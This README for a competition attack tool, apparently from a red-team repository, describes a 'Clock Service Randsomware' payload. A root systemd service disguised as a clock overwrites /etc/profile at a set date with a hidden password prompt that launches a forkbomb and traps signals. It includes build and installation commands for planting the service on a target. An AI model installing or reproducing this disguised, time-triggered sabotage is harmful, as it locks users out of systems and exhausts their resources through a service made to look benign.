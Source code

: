 # Clock Service "Randsomware"

The premise of this attack is to have a clock service trigger at a certin
time of the competition. 

This service will call `/usr/local/bin/clock` as the root user, which simply
keeps track of the time. At the moment of the trigger, Nov 16th, 12:00 EST, the
service will overwrite `/etc/profile` with our dumb `/etc/profile`. This prompt
will be hidden as a binary in `/usr/local/bin/lib` and spit out a forkbomb when
the password has failed to trigger. It also traps several signals to be super
annoying.

#### Directions: 

```
# Make the binaries 
make

# copy output binaries to their final destinations
sudo cp clock /usr/local/bin
sudo cp clocklib /usr/local/lib

# set the service for your distro (systemd)j
sudo cp clock.service /etc/systemd/system
sudo systemctl daemon reload
sudo systemctl enable clock

```

#### Notes: 

* The attack payload must be compiled on the attacking target

